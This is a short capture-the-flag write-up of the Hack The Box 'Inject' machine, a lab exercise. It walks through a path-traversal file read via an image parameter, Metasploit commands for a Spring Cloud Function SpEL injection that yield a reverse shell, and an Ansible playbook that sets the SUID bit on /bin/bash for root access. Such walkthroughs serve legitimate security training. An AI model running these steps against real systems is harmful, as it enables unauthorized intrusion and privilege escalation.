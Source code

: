 # HTB - Inject

## Summary

I'm going to keep this writeup pretty brief because I think this is a pretty dumb box. There is an obvious LFI after a file upload, which allows us to get a user's password and learn that the website is using the spring framework. There is a RCE CVE against this framework which we can just use metasploit to exploit. Then, we use the user's password we found from LFI to move laterally, and exploit an Ansible automation task to gain root  

## Recon + LFI

nmap shows `8080` is open as an http proxy and `22` is open for ssh  
Going to `10.10.11.204:8080` takes us to a pretty bare-bones website  
We can run a dirbust against the site with:  
- `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.11.204:8080`  

This reveals `/uploads` which is a page which allows us to upload .png files. If we send an upload POST request to burp and view the response, included in the response is the path where the image is uploaded to which is `/show-image?image=aaa.png`  
We can just go there and change image= to `../` and we can see that we have an easy LFI. From this LFI we can read a user phil's password and read a config file which tells us that this is using the Spring framework.  

## Spring Exploit

Phil's password does not work for ssh (maybe he doesn't have ssh with password authorized). There is a CVE for the spring framework which we can exploit with metasploit:  
- `use exploit/multi/http/spring_cloud_function_spel_injection`  
- `set target 1`  
- `set lhost tun0`
- `set rhosts 10.10.11.204`
- `run`  

And we get a shell.

## Privesc

We can move laterally to become phil by using his password  
Phil has access to a `/opt/automation/tasks` directory which contains an ansible script `playbook_1.yml`  

We can create our own ansible script called `playbook_2.yml` and put it there, and it will be run  

The purpose of the script is just to add the suid bit to `/bin/bash`  
```ansible
- hosts: localhost
  tasks:
  - name: GetRoot
    command: chmod u+s /bin/bash
    become: true
```  

Then, executing `bash -p` gets us a shell as root  
- We need `-p` so bash does not reset our effective user id  


